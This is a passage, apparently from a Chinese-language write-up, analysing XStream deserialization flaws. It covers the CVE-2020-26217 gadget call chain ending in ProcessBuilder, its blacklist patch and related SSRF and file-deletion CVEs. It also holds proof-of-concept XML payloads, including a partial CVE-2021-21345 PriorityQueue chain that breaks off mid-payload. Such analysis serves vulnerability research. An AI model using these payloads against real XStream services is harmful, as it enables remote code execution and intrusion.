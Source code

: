 ```
    <string>test</string>
  </entry>
</map>
```

* #### 漏洞成因
```
MapConverter.unmarshal()
  MapConverter.populateMap()
    MapConverter.putCurrentEntryIntoMap()
      HashMap.put()
        HashMap.hash()
          jdk.nashorn.internal.objects.NativeString.hashCode()
            jdk.nashorn.internal.objects.NativeString.getStringValue()
              com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data.toString()
                com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data.get()
                  com.sun.xml.internal.bind.v2.util.ByteArrayOutputStreamEx.readFrom()
                    java.io.SequenceInputStream.read()
                      java.io.SequenceInputStream.nextStream()
                        javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator.nextElement()
                          javax.imageio.spi.FilterIterator.next()
                            javax.imageio.ImageIO$ContainsFilter.filter()
                              ProcessBuilder#start
```
#### 补丁修复
黑名单加入了java.lang.ProcessBuilder和javax.imageio.ImageIO$ContainsFilter

虽然CVE-2020-26217修复后加入了上述黑名单，但是依旧可以用此链条在造成一些恶意攻击，例如CVE-2020-26258（SSRF）和CVE-2020-26259（任意文件删除）。二者和CVE-2020-26217的区别从`com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data.get()`这行调用开始。SSRF走向了`javax.activation.URLDataSource.getInputStream()`进而调用了URL类的openStream方法。任意文件删除则是走向了`com.sun.xml.internal.ws.util.ReadAllStream$FileStream.close()`

在CVE-2020-26258之后的SSRF（CVE-2021-21342）底层依然用的`javax.activation.URLDataSource.getInputStream()`，但是上层则是结合了PriorityQueue。先来看一下PriorityQueue相关的RCE漏洞。

### CVE-2021-21345
* Affected Version <= 1.4.15
* POC
```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
```
